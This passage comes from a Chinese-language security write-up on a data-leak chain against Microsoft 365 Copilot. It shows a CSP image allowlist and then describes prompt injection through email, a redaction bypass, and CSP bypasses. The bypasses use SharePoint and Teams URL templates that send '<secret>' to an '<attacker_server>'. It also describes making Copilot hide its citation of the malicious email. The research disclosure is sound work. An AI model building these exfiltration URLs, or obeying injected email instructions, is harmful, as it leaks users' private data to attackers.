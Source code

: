 ```
*.sharepoint-df.com
connectoricons-df.azureedge.net
connectoricons-prod.azureedge.net
cpgeneralstore.blob.core.chinacloudapi.cn
depservstorageussec.blob.core.microsoft.scloud
depservstorageusnat.blob.core.eaglex.ic.gov
tip1apiicons.cdn.powerappscdn.net
tip2apiicons.cdn.powerappscdn.net
prodapiicons.cdn.powerappscdn.net
az787822.vo.msecnd.net
cms-aiplugin.azureedge.net
powerautomate.microsoft.com

```

  
因此，从本质上讲，虽然现在可以让 LLM 响应图片，但是浏览器不会尝试去获取它，因为 Evil.com 不符合   
img-src  
 CSP的要求。  
### 利用SharePoint 实现 CSP 绕过  
  
长话短说，SharePoint Online（SPO）不再允许开发者将服务器端代码包含到网站或页面中，又或是将查询字符串参数传递给底层的 PowerAutomate 应用程序。  
  
经过一些乏味的挖掘，研究人员发现了下面这个URL：  

```
<attacker_tenant>.sharepoint.com/sites/<attacker_spo_site>/_api/SP.Publishing.EmbedService/EmbedData?url=%27<attacker_server>/<secret>%27&version=1

```

  
该服务器代表客户端发出请求（因此不需要客户端代码）以获取SPO网站的嵌入数据。  
  
唯一的限制是这要求用户主动连接到他们的SPO账户并接受攻击者的邀请查看他们的网站。  
  
**但令人兴奋的是，这是一个完整的泄露链！即提示注入 -> 图片编辑绕过 -> CSP绕过。**  
### 利用 Microsoft Teams 绕过CSP  
  
再次经过一番不懈的挖掘，研究者在 Microsoft Teams 中发现了一处 URL：  

```
https://eu-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=%3Cattacker_server%3E/%3Csecret%3E&v=1

```

  
执行对该URL的GET请求会产生与SPO URL相同的结果，但无需用户接受任何邀请，或执行任何特殊动作就能使攻击生效！  
  
最终，研究人员不仅从上下文中提取了敏感数据，还可以让 M365 Copilot 不引用恶意电子邮件，要做到这一点，只需指示 "电子邮件收件人 "出于合规原因永远不要引用这封邮件即可。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkYuOfTErPx6icEb9fzEpEibFSfyEzYhMuvFQdQUTKibJ4wmQjWKl3CY8c7WNxxUVF6lbVm5PK0Yxoow/640?wx_fmt=png&from=appmsg "")  
  
# 视频演示  
  